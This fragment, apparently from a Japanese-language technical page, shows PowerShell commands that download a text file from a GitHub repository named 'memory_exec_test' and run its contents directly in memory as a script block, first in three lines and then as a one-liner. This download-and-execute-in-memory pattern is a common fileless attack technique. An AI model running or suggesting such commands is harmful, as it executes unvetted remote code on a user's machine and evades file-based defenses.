 $c = (curl -URI https://raw.githubusercontent.com/kalaxity/memory_exec_test/main/test.txt).content
$s = [scriptblock]::create($c)
$s.invoke()

もしくはそれらをまとめて一行で

([scriptblock]::create((curl -URI https://raw.githubusercontent.com/kalaxity/memory_exec_test/main/test.txt).content)).invoke()
